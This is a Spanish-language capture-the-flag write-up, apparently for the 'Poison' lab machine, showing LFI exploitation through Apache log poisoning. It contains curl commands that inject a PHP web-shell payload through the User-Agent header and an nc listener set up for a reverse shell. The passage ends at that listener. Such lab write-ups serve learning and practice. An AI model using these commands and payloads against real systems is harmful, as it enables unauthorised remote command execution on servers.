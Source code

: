 Una forma de explotar una vulnerabilidad LFI puede ser a través de un log poisoning, donde se intenta cargar código malicioso dentro de los registros (logs) de la página web para luego lograr una ejecución de comandos. Sin embargo, para llevar a cabo este proceso, primero es necesario identificar en qué archivos se encuentran los registros del sistema. Se puede buscar en Google la ubicación específica para FreeBSD.

![logs](/poison/logs.png)


Ahora se puede enviar una petición especial con el fin de visualizar el contenido interpretado dentro del log. En este caso, se envía un user-agent con mi nombre para verificar si se refleja en el servidor.


```bash
curl -I "http://10.10.10.84/browse.php?file=/var/log/httpd-access.log" -A "MADLIES"

HTTP/1.1 200 OK
Date: Thu, 28 Dec 2023 23:20:52 GMT
Server: Apache/2.4.29 (FreeBSD) PHP/5.6.32
X-Powered-By: PHP/5.6.32
Content-Type: text/html; charset=UTF-8
```
{: .nolineno}


![agent](/poison/agent.png)


Dado que se ha confirmado que funciona, ahora se desea enviar como cabecera una porción de código PHP para verificar si se interpreta, con el objetivo de explotar la vulnerabilidad dentro de la web. Y se hace que espere que se pase un **parámetro por la URL** que permita al usuario obtener un **web shell**. 


```bash
curl -I "http://10.10.10.84/browse.php?file=/var/log/httpd-access.log" -A "<?php system(\$_GET['cmd']); ?>"
HTTP/1.1 200 OK
Date: Thu, 28 Dec 2023 23:23:51 GMT
Server: Apache/2.4.29 (FreeBSD) PHP/5.6.32
X-Powered-By: PHP/5.6.32
Content-Type: text/html; charset=UTF-8
```
{: .nolineno}


![poison](/poison/poison.png)

Gracias a esto, ya se puede ganar una **shell reversa**. Por lo tanto, el primer paso es ponerse a la escucha con **nc**.


```bash
nc -lvp 4444
```
{: .nolineno}
